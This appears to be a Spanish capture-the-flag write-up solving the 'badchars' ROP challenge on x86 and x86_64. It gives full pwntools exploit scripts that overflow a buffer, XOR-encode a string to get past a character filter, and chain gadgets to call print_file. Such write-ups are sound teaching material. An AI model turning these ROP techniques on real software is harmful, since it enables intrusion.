 # badchars

![2025-05-31-101801_1128x316_scrot](https://github.com/user-attachments/assets/e6d12eb4-fa50-452b-9996-8df9160d71dd)

## x86

Aqui tenemos que hacer lo mismo que en el reto anterior solo que esta vez algunos caracteres ('a','g','.','x') seran reemplazados por \xeb en la entrada.

El reto sugiere usar XOR para sobrepasar esto. El objetivo es introducir una cadena xoreada para sobrepasar las validaciones y luego hacerle xor de nuevo con la misma clave (xor es reversible: a ^ b ^ b = a) para escribir "flag.txt" en memoria.

Escribiremos igualmente en el segmento `.data`:
```
 rabin2 -S badchars32 | grep data
16  0x000005d8   0x14 0x080485d8   0x14 -r-- PROGBITS    .rodata
24  0x00001018    0x8 0x0804a018    0x8 -rw- PROGBITS    .data
```

Necesitamos un par de gadgets para escribir en memoria, estos dos nos sirven:
```
 0x080485b9          # pop esi; pop edi; pop ebp; ret
 0x0804854f          # mov dword [edi], esi
```

Y otro par de gadgets para xorear las cadena en memoria, como maximo pude encontrar xor byte a byte:
```
 gadget_xor1 = 0x080485bb            # pop ebp ; ret
 gadget_xor2 = 0x0804839d            # pop ebx ; ret
 gadget_xor3 = 0x08048547            # xor byte ptr [ebp], bl ; ret
```

Implementamos una funcion para hacer xor a "flag.txt" con alguna clave que no genere badchars, 0x2 genera 'dnce,vzv' asi que nos sirve:
```
  def xor_bytes(data: bytes, key: int = 0x2) -> bytes:
      return bytes([b ^ key for b in data])
```

Ya con esto lo unico que tenemos que agregar es un bucle que itere sobre las direcciones de `.data` haciendo xor a cada byte:
```
      for i in range(0,len(data)):
        p += p32(gadget_xor1)             
        p += p32(data_addr + i)                     #ebp
        p += p32(gadget_xor2)             
        p += p32(key)                               #ebx
        p += p32(gadget_xor3)                       
    return p
```

Exploit completo:
``` python3
from pwn import *
elf = context.binary = ELF("./badchars32")
io = process("./badchars32")

data_addr = 0x0804a018

gadget_write1 = 0x080485b9          # pop esi; pop edi; pop ebp; ret
gadget_write2 = 0x0804854f          # mov dword [edi], esi
gadget_xor1 = 0x080485bb            # pop ebp ; ret
gadget_xor2 = 0x0804839d            # pop ebx ; ret
gadget_xor3 = 0x08048547            # xor byte ptr [ebp], bl ; ret

badchars = ['x','g','a','.']
def write_in_data(data,key: int = 0x2):
    p = b""
    # Write "flag.txt"
    for i in range(0,len(data),4):
        chunk = data[i:i+4].ljust(4,b"\x00")
        p += p32(gadget_write1)
        p += p32(int.from_bytes(chunk,'little'))  #esi
        p += p32(data_addr + i)                   #edi
        p += p32(0)                               #ebp
        p += p32(gadget_write2)
    # Xor
    for i in range(0,len(data)):
        p += p32(gadget_xor1)             
        p += p32(data_addr + i)                     #ebp
        p += p32(gadget_xor2)             
        p += p32(key)                               #ebx
        p += p32(gadget_xor3)
    return p

def xor_bytes(data: bytes, key: int = 0x2) -> bytes:
    return bytes([b ^ key for b in data])


rop = ROP("./badchars")
payload = b"A" * 44
payload += write_in_data(xor_bytes(b"flag.txt"))  # write "flag.txt" en .data
payload += p32(elf.plt['print_file'])  # print_file("flag.txt")
payload += p32(0)                      # ebp
payload += p32(data_addr)              # "flag.txt"

io.recv()
io.sendline(payload)
io.interactive()
```


## x86_64

Sufri durante un buen rato tratando de descubrir porque el exploit no funcionaba especificamente en un byte de `.data`. Resulta ser que .data+7 contenia 0x2e o '.' (un badchar) en esa direccion, entonces no se puede escribir ahi porque el sanitizador lo reemplaza por \xeb. Por esta razon escribi en `.bss`, que tenia 8 bytes, rezando que el byte despues de este fuera un null byte.

Dejando eso de lado la implementacion es similar a x86; obtenemos los gadgets, hacemos el bucle xor y le pasamos la direccion como argumento a `print_file`:

Exploit:
``` python
from pwn import *
elf = context.binary = ELF("./badchars")
io = process("./badchars")

bss_addr =  0x00601038

gadget_write1 =  0x0040069c         # pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
gadget_write2 =  0x00400634         # mov qword ptr [r13], r12 ; ret


gadget_xor1 =  0x004006a0           # pop r14 ; pop r15 ; ret
gadget_xor2 =  0x00400628           # xor byte ptr [r15], r14b ; ret

pop_rdi =  0x004006a3               # pop rdi; ret


badchars = ['x','g','a','.']
def write_in_data(data,key: int = 0x2):
    p = b""
    # Write "flag.txt"
    for i in range(0,len(data),8):
        chunk = data[i:i+8].ljust(8,b"\x00")
        p += p64(gadget_write1)
        p += p64(int.from_bytes(chunk,'little'))  #r12
        p += p64(bss_addr + i)                   #r13
        p += p64(0)                               #r14
        p += p64(0)                               #r15
        p += p64(gadget_write2)
    # Xor
    for i in range(0,len(data)):
        p += p64(gadget_xor1)
        p += p64(key)                               #r14  
        p += p64(bss_addr + i)                     #r15
        p += p64(gadget_xor2)
    return p

def xor_bytes(data: bytes, key: int = 0x2) -> bytes:
    return bytes([b ^ key for b in data])


rop = ROP("./badchars")
payload = b"A" * 40
payload += write_in_data(xor_bytes(b"flag.txt"))  # write "flag.txt" en .data
payload += p64(pop_rdi)
payload += p64(bss_addr)              # "flag.txt"
payload += p64(elf.plt['print_file'])  # print_file("flag.txt")

io.recv()
io.sendline(payload)
io.interactive()
```


